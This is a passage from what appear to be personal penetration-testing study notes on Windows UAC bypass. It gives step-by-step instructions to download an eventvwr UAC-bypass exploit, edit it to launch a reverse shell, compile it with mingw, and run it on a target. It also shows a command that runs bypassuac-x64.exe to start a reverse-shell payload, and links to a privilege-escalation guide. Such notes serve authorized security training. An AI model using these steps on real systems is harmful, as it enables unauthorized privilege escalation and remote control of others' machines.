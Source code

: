 2. Download code at  https://github.com/turbo/zero2hero 

3. Uncomment lines 66 & 69, and change command to run (ex. to a reverse shell)

4. Compile, transfer to target, and run.

   ```bash
   x86_64-w64-mingw32-gcc eventvwr-bypassuac.c -o eventvwr-bypassuac-64.exe
   ```

##### Kali Linux Included Files

Check on bypassuac-x86.exe and bypassuac-x64.exe (These didn't work the one time I tried)

```powershell
bypassuac-x64.exe /c C:\BypassUAC\reverse_4444.exe
```

### Links

Comprehensive List of PrivEsc points - https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html?q=